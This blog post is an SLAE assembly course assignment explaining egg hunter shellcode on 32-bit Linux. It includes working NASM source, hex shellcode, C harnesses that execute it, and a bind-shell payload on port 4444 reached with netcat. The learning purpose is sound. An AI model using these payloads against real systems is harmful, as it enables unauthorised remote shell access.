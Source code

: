 # SLAE course
This blog post has been created for completing the requirements of the SecurityTube Linux.

Assembly Expert certification:
* https://www.pentesteracademy.com/course?id=3

Student ID: SLAE-XXXXX

## Assignment#3: What to do ?
This assignment is divided in 3 steps:
* Define and explain an egg hunter
* Create a working demo of an egg hunter
* Make the egg hunter easily configurable for different payloads

Now, let's get to work.
=

## Step 1: Define and explain an egg hunter
The Egg hunting technique is used when there are not enough available consecutive memory locations to insert the shellcode.  Instead, a unique “tag” is prefixed with shellcode. 

When the “Egg hunter” shellcode is executed, it searches for the unique “tag” that was prefixed with the large payload and starts the execution of the payload. 

In classic stack based buffer overflow, the buffer size is big enough to hold the shellcode. But, what will happen if there is not enough consecutive memory space available for the shellcode to fit in after overwrite happens.

In general the egg hunter code needs to follow three rules:
1) It must be robust
    * This requirement is used to express the fact that the egg hunter must be capable of searching through memory regions that are invalid and would otherwise crash the application if they were to be dereferenced improperly. It must also be capable of searching for the egg anywhere in memory.
2) It must be small
    * The size is a principal requirement for the egg hunters as they must be able to go where no other payload would be able to fit when used in conjunction with an exploit. The smaller the better.
3) It should be fast
    * In order to avoid sitting idly for minutes while the egg hunter does its task, the methods used to search VAS should be as quick as possible, without violating the first requirement or second requirements without proper justification.

An amazing PDF from "hick.org" describes the whole process and how to use it:
[Link to PDF](http://www.hick.org/code/skape/papers/egghunt-shellcode.pdf)

## Step 2: create a working demo of an egg hunter
The egg hunter code is divided in four major parts:
1) The first step initialize the registers to NULL. 

2) The next step is to perform a page alignment operation on the current pointer that is being validated by doing a bitwise OR operation on the low 16-bits of the current pointer (stored in edx) and then incrementing edx by one. This operation is equivalent to adding 0x1000 to the value in edx. The reason these two operations are separated is to avoid nullbytes inside the shellcode.

3) The third step is to use a systemcall 'access' which will take an address as a parameter and check for us if the memory address is valid. If not the systemcall will return '0xf2' telling us the given address is invalid and then loop until the result returns a valid address.

4) The last step is to check two times the presence of the egg. Because, if we don't do this check a second time the egg hunter code will jump on the wrong memory address and then execute an invalid code.

The egg hunter shellcode:
```nasm
global _start

;FIRST PART
_start:
	xor ecx, ecx 			;Initialize ecx to NULL
	mul ecx				;Initilize eax and edx to NULL

;SECOND PART
_firstStep:
	or dx, 0xfff			;Do a OR on dx register, dx == 0xFFF

_secondStep:
	inc edx				;Add 1 to edx, edx == 0x1000

    ;THIRD PART
	lea ebx, [edx+0x4]		;ebx now holds the value of edx + 0x4
	push byte +0x21			;Push 0x21 on the stack
	pop eax				;Pop 0x21 which is the systemcall value of access
	int 0x80			;Go for it
	cmp al, 0xf2			;Compare the systemcall return value to 0x2f
	jz _firstStep			;If zero, the program will jump to '_firstStep'. Which means the return value is not a valid memory address

    ;FOURTH PART
	mov eax, 0x50905090		;This instruction will move our egg value inside eax
	mov edi, edx			;Move the address stores in edx to edi
	scasd				;This instruction will compare the value inside eax and edi
	jnz _secondStep			;Jump back to '_secondStep' if the comparaison is false
	scasd				;We check a second time the presence of our egg before executing the shellcode
	jnz _secondStep			;Jump back to '_secondStep' if the comparaison is false
	jmp edi				;Jump to our payload
```

Let's compile it:
```console
#nasm -f elf32 -o egg_hunter.o egg_hunter.nasm
#ld -m elf_i386 -z execstack -o egg_hunter egg_hunter.o
```

We can obtain the hexadecimal representation of the previous code by using the following command:
```console
#objdump -d ./egg_hunter |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

The following C code is used to test our egg hunter:
```c
#include <stdio.h>
#include <string.h>

// egg_hunter.nasm shellcode is stored here
unsigned char egg_hunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

unsigned char shellcode[] = \
"\x90\x50\x90\x50" // first egg
"\x90\x50\x90\x50" // second egg
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

void main()
{
	// print the length of the shellcodes
	printf("Egg hunter shellcode Length:  %d\n", strlen(egg_hunter));
	printf("Egg shellcode Length:  %d\n", strlen(shellcode));

	// convert shellcode to a function
	int (*ret)() = (int(*)())egg_hunter;
	// execute the shellcode has a function
	ret();

}
```

Let's compile it and execute it:
```console
#gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack 
#./test_shellcode
```

## Step 3: make the egg hunter easily configurable for different payloads
For this part, we will use the bind_shell.nasm code from the assignment#1.

We first need to compile it:
```console
#nasm -f elf32 -o bind_shell.o bind_shell.nasm
#ld -m elf_i386 -z execstack -o bind_shell bind_shell.o
```

We can obtain the hexadecimal representation of the previous code by using the following command:
```console
#objdump -d ./bind_shell |grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
```

We will use exactly the same C code has shown before to test a different payload. In this case our bind shell.
```c
#include <stdio.h>
#include <string.h>

// egg_hunter.nasm shellcode is stored here
unsigned char egg_hunter[] = \
"\x31\xc9\xf7\xe1\x66\x81\xca\xff\x0f\x42\x8d\x5a\x04\x6a\x21\x58\xcd\x80\x3c\xf2\x74\xee\xb8\x90\x50\x90\x50\x89\xd7\xaf\x75\xe9\xaf\x75\xe6\xff\xe7";

// the bind shell code is stored inside this variable precede by two eggs
unsigned char shellcode[] = \
"\x90\x50\x90\x50" // first egg
"\x90\x50\x90\x50" // second egg
"\x89\xe5\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x50\x50\x50\x66\x68\x11\x5c\x66\x6a\x02\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x89\xc7\x31\xc0\x66\xb8\x69\x01\x89\xfb\x89\xe1\x89\xea\x29\xe2\xcd\x80\x31\xc0\x66\xb8\x6b\x01\x89\xfb\x31\xc9\xcd\x80\x31\xc0\x66\xb8\x6c\x01\x89\xfb\x31\xc9\x31\xd2\x31\xf6\xcd\x80\x89\xc6\xb1\x03\x31\xc0\xb0\x3f\x89\xf3\xfe\xc9\xcd\x80\xfe\xc1\xe2\xf2\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\xb0\x0b\x89\xe3\x31\xc9\x31\xd2\xcd\x80";

void main()
{
	// print the length of the shellcodes
	printf("Egg hunter shellcode Length:  %d\n", strlen(egg_hunter));
	printf("Egg shellcode Length:  %d\n", strlen(shellcode));

	// convert shellcode to a function
	int (*ret)() = (int(*)())egg_hunter;
	// execute the shellcode has a function
	ret();

}
```

Let's compile the code and execute it:
```console
#gcc test_shellcode.c -o test_shellcode -m32 -fno-stack-protector -z execstack 
#./test_shellcode
```

We can use netcat to check if the port 4444 is open:
```console
#netstat -antp | grep 4444
```

Finaly, netcat can be used to access our bind shell 
```console
#nc -nv 127.0.0.1 4444
```